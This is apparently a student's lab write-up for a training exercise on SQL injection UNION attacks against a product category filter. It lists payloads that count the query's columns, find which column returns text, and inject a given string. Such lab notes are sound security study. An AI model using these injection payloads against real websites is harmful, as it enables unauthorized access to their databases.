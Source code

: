 # Ninth Lab : SQL Injection

Lab - 09 : SQL injection UNION attack, finding a column containing text

SQL Injection : Product category filter

Endgoal : Perform a SQL injection UNION attack that returns an string given to us 

Analysis : 

1. SQL injectability → True
2. Determining the number of columns
    
    ```
    Payload -> ' order by 1--
    ```
    
    No of columns → 3
    
3. Finding out which one returns string 
    
    ```
    Payload -> ' union select null, 'a', null--
    ```
    
    changing the dummy string text to different places in null to find out which returns the string data 
    
    After finding out which returns string data, we can upload whatever string we like it to return. 
    
    ```
    Final Payload -> ' union select null, 'oDX7OI', null--
    ```
    

Pretty ezzzzzzzzz